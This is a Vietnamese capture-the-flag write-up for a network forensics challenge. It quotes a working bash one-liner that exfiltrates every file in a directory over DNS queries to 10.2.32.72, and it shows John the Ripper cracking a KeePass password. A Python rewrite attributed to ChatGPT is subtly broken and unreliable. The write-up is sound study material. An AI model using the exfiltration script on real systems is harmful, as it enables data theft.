







## Đề 
> We received a letter threatening that our data has been compromised and if we do not pay the ransom, all will be made public. We wonder how he managed to get it even though we protected it carefully
## Link challenge
> https://ctf.viblo.asia/puzzles/netlab2-protected-vault-hf0wmhwguj0
## Giải 
- Sau khi mở file lên bằng wireshark thứ đập vào mắt em đầu tiên là 1 file update.sh
- 
- Sau khi save file xuống em thu được 1 đoạn scipt sau 
```
for f in $(ls .); do s=4;b=50;c=0; for r in $(for i in $(gzip -c $f| base64 -w0 | sed "s/.\{$b\}/&\n/g");do if [[ "$c" -lt "$s"  ]]; then echo -ne "$i-."; c=$(($c+1)); else echo -ne "\n$i-."; c=1; fi; done ); do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short; done ; done
```
- Vì em không biết đọc nên em nhờ chatgpt chuyển qua python cho dễ đọc
```
import os
import subprocess
import gzip
import base64

def main():
    # Duyệt qua tất cả các tệp trong thư mục hiện tại
    for filename in os.listdir('.'):
        s = 4  # Số lượng ký tự mỗi dòng
        b = 50 # Độ dài của mỗi chunk base64
        c = 0  # Biến đếm

        # Mở tệp gzip và đọc nội dung
        with gzip.open(filename, 'rb') as f:
            content = f.read()
            # Encode nội dung bằng base64
            encoded_content = base64.b64encode(content).decode('utf-8')
            # Chia thành các chunk có độ dài b
            split_encoded_content = [encoded_content[i:i+b] for i in range(0, len(encoded_content), b)]

            # Duyệt qua các chunk
            for chunk in split_encoded_content:
                # In chunk và dấu gạch nối
                if c < s:
                    print(chunk + "-.", end='')
                    c += 1
                else:
                    print("\n" + chunk + "-.", end='')
                    c = 1
        
        # Duyệt qua các chunk và thực hiện lệnh dig cho mỗi chunk
        for chunk in split_encoded_content:
            # Tạo lệnh dig
            cmd = "dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 {} +short".format(chunk + filename.encode('utf-8').decode('base58').replace("+", "}").replace("/", "{"))
            # Thực thi lệnh dig
            subprocess.run(cmd, shell=True)

if __name__ == "__main__":
    main()

```
- Tiếp theo em lấy tất cả những dữ liệu thu thập được về 1 file data.txt để bắt đầu decode
- 
- 
- Có thể thấy phía sau có vài đoạn giống nhau đâu là mã hoá base58 để thể hiện tên file 
- 
- Bây giờ xem sẽ xuất các strings có cùng tên file ra rồi xem nội dung bên trong với cybercheff
- Để làm được thì em sẽ thực hiện 1 vài bước sau :
1. Chuyển đổi các kí tự {, } thành /, +
2. Xoá tên phía sau
3. Xoá kí tự -.
4. Decode base64
- 
**File thứ nhất**
- 
**File thứ 2**
- 
**File thứ 3**
- 
- Ở đây ta không có mật khẩu
**File thứ 4**
- 
**File thứ 5**
- 
**File thứ 6**
- 
- Và cuối cùng là 1 file update.sh
- Chỉ có dữ kiện là file bị khoá nên em crack thử pass
```
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyou         (Flag)     
1g 0:00:00:00 DONE (2024-03-07 03:50) 3.846g/s 61.53p/s 61.53c/s 61.53C/s 123456..jessica
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
- Mật khẩu là iloveyou
- 
> Flag : Flag{NetLab2_DNS_3xf1ltr4t10n_15_5t3al7hy}
